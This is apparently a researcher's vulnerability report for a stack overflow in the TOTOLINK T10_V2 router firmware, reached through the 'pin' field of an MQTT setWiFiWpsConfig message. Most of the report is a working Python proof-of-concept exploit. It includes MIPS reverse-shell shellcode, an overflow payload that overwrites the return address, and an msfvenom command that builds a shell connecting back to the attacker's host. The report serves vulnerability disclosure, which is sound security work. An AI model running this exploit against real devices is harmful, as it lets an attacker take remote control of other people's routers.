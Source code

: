 Information
===========

**Vendor of the products**: TOTOLINK <br>

**Vendor's website**: http://www.totolink.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: TOTOLINK T10_V2 <br>

**Affected firmware version**: V5.9c.5061_B20200511 <br>

**Firmware download address**: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/172/ids/36.html <br>

Overview
===========

**TOTOLINK T10_v2 V5.9c.5061_B20200511** has a **stack overflow** vulnerability detected at function **setWiFiWpsConfig**. Attackers can send dirty data by mqtt packet into parameter **pin** to control the return address and execute shellcode. <br>

Vulnerability details
=====================
The vulnerability is detected at **/lib/cste_modules/wps.so** <br>

In the function **setWiFiWpsConfig**, the content obtained by program through parameter **pin** given by MQTT data packet is passed to variable **v11**. Then, the variable **v11** will copy to the variable **v22**, however,**v22** is on the stack,but there isn't any length check of **v11**.So we can set **wscMode** = **1** and **wscPinMode** = **1** to execute **strncpy**,and set the length of **pin's content** very long to cause stack overflow. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/0.jpg) <br>

Above all, attackers can send a MQTT data packet and control the content of parameter **pin** to cause stack overflow. <br>

Proof of Code
====================
```python
from pwn import *
import paho.mqtt.client as mqtt
import threading

context(os = 'linux', arch = 'mips', log_level = 'debug')

buf =  ""
buf += "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21"
buf += "\xfd\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24"
buf += "\x0c\x01\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f"
buf += "\xfd\xff\x0f\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf"
buf += "\x09\x1d\x0e\x3c\x09\x1d\xce\x35\xe4\xff\xae\xaf"
buf += "\x37\x02\x0e\x3c\xc0\xa8\xce\x35\xe6\xff\xae\xaf"
buf += "\xe2\xff\xa5\x27\xef\xff\x0c\x24\x27\x30\x80\x01"
buf += "\x4a\x10\x02\x24\x0c\x01\x01\x01\xfd\xff\x11\x24"
buf += "\x27\x88\x20\x02\xff\xff\xa4\x8f\x21\x28\x20\x02"
buf += "\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff\xff\x10\x24"
buf += "\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
buf += "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf"
buf += "\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf"
buf += "\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24"
buf += "\x0c\x01\x01\x01"

pay = "a"*60 + "\x44\x03\x42"

client = mqtt.Client()
client.connect("192.168.55.1",1883,60)
client.publish('totolink/router/setting/setWiFiWpsConfig',payload='{"topicurl":"setting/setWiFiWpsConfig","wifiIdx":"0","wscMode":"1","wscPinMode":"1","pin":"'+pay+'"}'+'bbbbb'+buf)
```
**PS:**
The offset maybe different in each device. <br>
**\x44\x03\x42** is the address which shellcode in,to get the address,you need to use gdbserver. <br>
The shellcode is which made by msf to reverse the shell <br>
```python
sfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.2 LPORT=2333 -f py -o shellcode.txt
```

Attack Demo
========
Because of Lazy binding mechanism，so we can send some short dirty data at first, then execute our exploit.<br>

Get the reverse shell!
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/1.jpg)





    
    

  

